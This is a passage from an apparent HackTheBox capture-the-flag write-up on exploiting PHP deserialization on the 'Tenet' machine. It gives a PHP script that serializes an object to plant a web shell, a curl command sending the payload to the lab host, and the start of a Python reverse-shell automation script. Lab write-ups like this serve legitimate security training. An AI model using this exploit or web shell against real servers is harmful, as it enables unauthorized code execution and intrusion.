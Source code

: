 2 - We serialize it to send to our tenet box.

3 - We send it to the server as GET param.

4 - The **__destruct** function will write it to the server with the name we choosen. And then we can execute it and get a reverse shell on the box.

exploit.php

```php
<?php
class DatabaseExport {
  public $user_file = '0x4rt3mis.php';
  public $data = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new DatabaseExport);
?>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:08:36.png)

So `O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}` this is what we need to send to the server to write the file in it. It'll unserialize it and we are golden!

We'll send over the burp to see how it's being passed better

```sh
curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' --proxy 127.0.0.1:8080
```

We send it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:10:09.png)

On burp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:10:22.png)

Seems ok. Now let's see if it was written on the server by the **__destruct** function

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:10:59.png)

Yes, we got it. And now, the reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:13:43.png)

Now, let's start building our python script to automate it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:29:02.png)

php_serialize.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto PHP Serialization Exploit Reverse Shell - Tenet HackTheBox
# Date: 15/09/21

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

```